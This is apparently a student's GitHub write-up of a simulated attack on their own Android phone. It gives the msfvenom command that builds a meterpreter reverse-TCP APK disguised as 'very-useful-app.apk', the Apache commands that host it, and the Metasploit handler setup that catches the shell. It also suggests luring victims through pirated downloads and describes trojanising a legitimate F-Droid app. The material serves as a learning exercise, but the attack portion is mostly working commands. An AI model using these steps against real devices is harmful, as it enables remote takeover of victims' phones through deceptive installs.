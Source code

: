 For this simulated attack we will use my phone as the target device and my laptop as the attacking device. 
# Attack: Remote Shell execution by malicious payload present in target device

## Broad Idea
We will use a tool ```msfvenom``` to build an apk which will be downloaded on the target device, lets say via social engineering. We will then use ```msfconsole``` to listen on the listening port and connect to the reverse TCP shell on the target device.

### Generate the payload
```msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -o very-useful-app.apk```

```LHOST``` - The IP of the host who has sent the payload
```LPORT``` - The listening port for the payload to connect back to the attacker 
```-o``` - The name of the resulting apk file generated 

### Deliver the file to the target device [Android]
Here we are going the host the the app as a website and whenever the unsuspeting victim browses to the website, they are prompted to download the file. This may be especiallly convincing when the user is trying to download pirated software, video or music. 

```sudo mv very-useful-app.apk /var/www/html``` 
```cd var/www/html``` 
```service apache2 start``` 

This starts up a website hosted on our computer itself, which hosts the file. 
Here is the POV of the victim downloading the apk. 

```Note that Google Play Protect has been disabled for this denomstration which would otherwise flag the file and not let the installation go through```

[target_downloading_the_payload.mp4](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/target_downloading_the_payload.mp4)

As the victim downloads the app we prepare for our next step. We start up Metasploit and select the exploit ```exploit/multi/handler``` and set up the same ```LHOST``` and ```LPORT```. The attacking device will now start listening on port 4444 and wait for connection from the payload.

```msfconsole``` 
```use exploit/multi/handler``` 
```set LHOST <attacker-IP>``` 
```set LPORT 4444``` 
```exploit``` 

Once the phone has installed the app and the victim tries to run it, the payload should activate and we will be given a shell on the android device. During my tests, I found that the target device had to force-start the app via Termux to get a persistent connection, otherwise the app would almost immediately get shut down by the android device. 

[force_starting_the_service.mp4](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/force_starting_the_service.mp4)

After we get a shell, we can explore the CLI interface of the android by typing ```help``` in the terminal. We soon realise that a lot of the commands are not usable by us. We need to perform privilege escalation to execute other commands. 
After this attempt I left for my class. When I came back the shell stopped working. I could not believe what I just witnessed and slowly came to realisation that it was time to get my hands dirty.

This picture is the only proof I have that I had actually managed to get a meterpreter shell on that android phone.

![the_only_proof.jpeg](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/the_only_proof.jpeg)

## # Troubleshooting Attempt - 1
I initially thought that the connection was weak so I tried port forwarding. 

![ngrok.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/ngrok.png)

![another_payload_using_port_fwd.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/another_payload_using_port_fwd.png)

![couldnt_reproduce_output.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/couldnt_reproduce_output.png)

Sadly, the output is still the same and msfconsole is left at listening mode.

## # Troubleshooting Attempt - 2
By now we can say that this vulnerability has been patched and the only effective way to get past this is to get the android to think this is a legitimate app but I'm not very good at this so here's my attempt

We get a legitimate app from the internet to act as the trojan, here we use F-Droid

![legitimate_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/legitimate_app.png)

Then we have to decompile both the apps and inject the malicious code from the payload into the legitimate F-Droid App.

![decompiling_both_apps.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/decompiling_both_apps.png)

Injecting malicious code from the payload into the ```AndroidManifest.xml``` file

![injecting_malicious_code.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/injecting_malicious_code.png)

![locating_the_MainActivity_file.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/locating_the_MainActivity_file.png)

![editing_smali_of_legit_app.png](https://github.com/rugbedbugg/MFC_RealNetwork/blob/main/Simulated_attack/editing_smali_of_legit_app.png)

This final step i.e. to edit the ```.smali``` file of the legitmate app, after doing which it started throwing errors during recompilation of the program.


## Final thoughts

Probably should've written my own script as these vulnerabilites get patched pretty quickly.
